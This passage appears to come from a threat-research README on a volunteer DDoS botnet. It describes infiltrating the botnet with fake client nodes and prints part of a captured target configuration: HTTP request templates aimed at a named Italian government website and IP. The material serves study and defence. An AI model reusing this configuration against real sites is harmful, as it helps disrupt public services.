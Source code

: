 ## Bots Behaviour

The voluntary organization of "contributions", the centralized architecture of botnet super-nodes, the absence of P2P communications between client nodes, the operators' inability to implement an effective and robust communication encryption mechanisms, necessarily imply the **impossibility of protecting the current clients configuration**.

Visibility can be gained by introducing fake nodes: creating a **_rogue identity_** to register an account and modifying the client node so that it doesn't actually perform attacks, but still reports plausible results to super-nodes. If desired, it's also possible to deceive operators and get compensated for the "achievements".

<details>
	<summary>Click to show the configuration of yesterday evening.</summary>
	<pre>
{
    "targets": [
        {
            "target_id": "642fe45d318a95e391426659",
            "request_id": "6419d35236673e75cff253c2",
            "host": "www.mit.gov.it",
            "ip": "2.42.233.153",
            "type": "http",
            "method": "POST",
            "port": 443,
            "use_ssl": true,
            "path": "/",
            "body": {
                "type": "str",
                "value": "keys=$_1&form_build_id=form-HeYtZOikPZbAPE3XiXsWt5-ODPq4JFbcnI5CHONvCm0&form_id=search_api_page_block_form_mioindice&op=Cerca"
            },
            "headers": null
        },
        {
            "target_id": "642fe45d318a95e391426659",
            "request_id": "6419d35236673e75cff253c3",
            "host": "www.mit.gov.it",
            "ip": "2.42.233.153",
            "type": "http",
            "method": "GET",
            "port": 443,
            "use_ssl": true,
            "path": "/ricerca/$_1",
            "body": {
                "type": "",
                "value": ""
            },
            "headers": null
        },
        {
            "target_id": "642fe45d318a95e391426659",
            "request_id": "6419d35336673e75cff253c4",
            "host": "www.mit.gov.it",
            "ip": "2.42.233.153",
            "type": "http",
            "method": "GET",
            "port": 443,
            "use_ssl": true,
            "path": "/comunicazione/news?page=$_2",
            "body": {
                "type": "",
                "value": ""
            },